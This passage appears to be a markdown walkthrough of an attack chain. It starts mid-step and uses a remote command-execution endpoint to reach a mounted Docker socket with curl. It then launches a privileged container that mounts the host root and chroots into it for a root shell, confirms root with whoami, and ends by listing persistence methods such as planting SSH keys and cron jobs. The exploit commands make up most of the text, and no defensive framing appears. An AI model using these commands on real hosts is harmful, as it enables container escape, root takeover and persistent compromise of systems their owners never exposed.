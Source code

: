         **Explanation:** This command uses `curl` to interact with the Docker API via the Unix socket.  It retrieves information about all running containers.  This command is executed *inside* the compromised container using the RCE vulnerability.  Thus, the full command to trigger the exploit would be something like:

        ```bash
        curl "http://<application_ip>:<application_port>/vuln?cmd=curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json"
        ```
        **Expected Output:** A JSON response containing information about the running Docker containers.

        **Why:** To confirm that we can interact with the Docker API directly. The `--unix-socket` parameter is crucial for connecting to the Docker socket.

3.  **Run a Privileged Container on the Host:**

    We can now leverage the Docker socket to run a privileged container that shares the host's namespaces. This effectively gives us root access on the host.

    ```bash
    curl "http://<application_ip>:<application_port>/vuln?cmd=docker run -it --rm --privileged --net=host -v /:/host busybox chroot /host"
    ```

    **Explanation:**  This command instructs the Docker daemon to run a new container with the following properties:
        *   `-it`:  Interactive terminal.
        *   `--rm`: Remove the container after it exits.
        *   `--privileged`:  Run the container with all capabilities.
        *   `--net=host`:  Share the host's network namespace.
        *   `-v /:/host`:  Mount the host's root filesystem to `/host` inside the container.
        *   `busybox`:  The image to use (a minimal Linux distribution).
        *   `chroot /host`:  Change the root directory to the host's filesystem.

    The entire command is executed via the RCE in the application container.

    **Expected Output:** A root shell prompt (e.g., `#`) inside the container.

    **Why:** This command effectively breaks out of the container and gives us root access to the host. By chrooting into the host's filesystem, we can modify any file on the system.

4.  **Verify Root Access on the Host:**

    ```bash
    whoami
    ```

    **Explanation:** This command prints the current user's name.

    **Expected Output:** `root`

    **Why:** To confirm that we are running as root on the host.

5.  **Persistence (Optional):**

    From here, the attacker can establish persistence on the node. Examples include:
        *   Adding an SSH key to the root user's `authorized_keys` file.
        *   Creating a cron job to execute malicious code periodically.
        *   Modifying system startup scripts to run malicious code.

